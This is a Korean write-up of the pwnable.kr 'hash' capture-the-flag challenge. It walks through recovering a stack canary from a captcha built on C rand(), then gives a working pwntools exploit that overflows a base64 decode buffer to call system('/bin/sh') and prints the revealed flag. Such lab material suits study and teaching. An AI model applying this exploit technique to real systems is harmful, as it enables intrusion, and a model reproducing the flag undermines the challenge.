




# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

파일 정보를 확인해보면, 32bit에 PIE는 적용되어 있지 않다.

```sh
root@ubuntu:~/pwn# checksec --file=./hash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   103) Symbols      No    0               3               ../hash
root@ubuntu:~/pwn# file ./hash
../hash: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=89ebf47881a82f5a991199ae381f8284a46e0500, not stripped
```

libcrypto.so.1.0.0 공유 라이브러리가 필요할 듯 하다.

```sh
root@ubuntu:~/pwn# ldd hash
        linux-gate.so.1 (0xf7f34000)
        libcrypto.so.1.0.0 => not found
        libm.so.6 => /lib/i386-linux-gnu/libm.so.6 (0xf7e23000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7c34000)
        /lib/ld-linux.so.2 (0xf7f35000)
openssl 1.0.0버전을 설치하자.
```

> [OpenSSL](https://www.openssl.org/source/old/1.0.0/)

```sh
root@ubuntu:~/pwn# tar -zxf openssl-1.0.0s.tar.gz
root@ubuntu:~/pwn# cd openssl-1.0.0s/
root@ubuntu:~/pwn/openssl-1.0.0s# apt -y install make gcc gcc-multilib
root@ubuntu:~/pwn/openssl-1.0.0s# ./Configure -m32 linux-generic32 shared
root@ubuntu:~/pwn/openssl-1.0.0s# make
root@ubuntu:~/pwn/openssl-1.0.0s# make install
root@ubuntu:~/pwn/openssl-1.0.0s# cp /usr/local/ssl/lib/libcrypto.so.1.0.0 /lib32/
```

이제 hash를 실행해보면 captcha를 입력한 후 base64로 인코딩된 데이터를 입력하면 MD5데이터를 준다고 한다.

하지만, 데이터의 MD5값과는 다르다.

```sh
root@ubuntu:~/pwn# ./hash
./hash: /lib32/libcrypto.so.1.0.0: no version information available (required by ./hash)
- Welcome to the free MD5 calculating service -
Are you human? input captcha : 1169833528
1169833528
Welcome! you are authenticated.
Encode your data with BASE64 then paste me!
YWRtaW4=
MD5(data) : 5207500f6ec8592462ccff95f10823f3
Thank you for using our service.
```

우선 취약한 점을 보면 base64를 입력받는 버퍼(g_buf)는 0x400만큼 받지만, base64 decoding의 결과가 저장되는 버퍼(v3)는 0x200만큼 잡는다.



즉, BoF가 터지지만, 이때 canary를 알아내지 못한다면, stack smashing이 일어나 소용이 없을 것이다.

canary는 my_hash라는 함수에서 여러 변수와 연산을 통해서 captcha라는 값으로 나온다.



즉, captcha에서 -v6 + v8 -v9 -v4 +v5 -v3 -v7을 하면 canary임을 알 수가 있다.



Python의 rand함수와 C의 rand함수는 로직이 다르다고 한다. 따라서 ctypes라이브러리를 이용하여 C언어의 rand함수를 호출하고 다음과 같이 canary를 계산한다.

* 왜 8번 호출하는지는 모르겠고, 왜 index 1번부터 rand값을 사용하는 지 모르겠다.

```python
from ctypes import *
from ctypes.util import find_library

c = CDLL(find_library('c'))
c.srand(c.time(0))
rand = [c.rand() for i in range(8)]
... captcha 받고 ...
canary = int(captcha) - rand[4] + rand[6] - rand[7] - rand[2] + rand[3] - rand[1] - rand[5]
canary = canary & 0xffffffff # canary는 unsigned int형인듯하다.
```

canary를 검사하는 곳은 ebp - 0xC부분이다. 따라서 payload는 다음과 같다.

    1. dummy * 0x200
    2. canary
    3. dummy * 0xC (pop ebx, pop edi, pop ebp)
    4. system address (retn)
    5. dummy * 0x04 (???)
    6. g_buf + payload 길이 + 4 (base64로된 g_buf 시작 주소로부터 /bin/sh까지 크기)
    7. /bin/sh

exploit 코드를 작성하자. time은 약간의 오차가 있을 수 있으므로, statck smashing이 일어난다면 재시도하자.

```python
from pwn import *
from ctypes import *
from ctypes.util import find_library
import base64

c = CDLL(find_library('c'))
c.srand(c.time(0))
rand = [c.rand() for i in range(8)]

r = remote('pwnable.kr', 9002)
e = ELF('./hash')

r.recvuntil('captcha : ')
captcha = r.recvline().decode().strip()
r.sendline(captcha)
canary = int(captcha) - rand[4] + rand[6] - rand[7] - rand[2] + rand[3] - rand[1] - rand[5]
canary = canary & 0xffffffff

payload = b''
payload += b'A' * 0x200
payload += p32(canary)
payload += b'A' * 0x0C
payload += p32(e.plt['system'])
payload += b'A' * 0x04
payload += p32(0x0804B0E0 + len(base64.b64encode(payload)) + 4)

r.sendline(base64.b64encode(payload) + b'/bin/sh\x00')
r.interactive()

[Output]
... 생략 ...
$ ls
flag
log
log2
md5calculator
super.pl
$ cat flag
Canary, Stack guard, Stack protector.. what is the correct expression?
```


# **FLAG**

**Canary, Stack guard, Stack protector.. what is the correct expression?**